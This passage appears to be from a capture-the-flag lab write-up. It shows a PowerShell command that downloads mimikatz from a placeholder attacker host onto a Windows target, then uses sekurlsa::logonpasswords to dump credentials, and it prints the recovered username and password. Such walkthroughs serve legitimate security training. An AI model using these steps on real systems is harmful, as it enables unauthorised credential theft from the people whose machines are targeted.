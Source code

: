 
```console
$ IWR -useBasicParsing http://<YourIP>:80/mimikatz.exe -o mcat.exe
```

Then we can run that file by typing `.\mcat`.
Within the mimikatz program, type the following after the "#" prompt:

```console
mimikatz # sekurlsa::logonpasswords
```

This should reward you with the following output:

![Desktop View](/assets/img/Shield/sandra.png){: }

The found credentials are:

```yml
username: sandra
password: Password1234!
```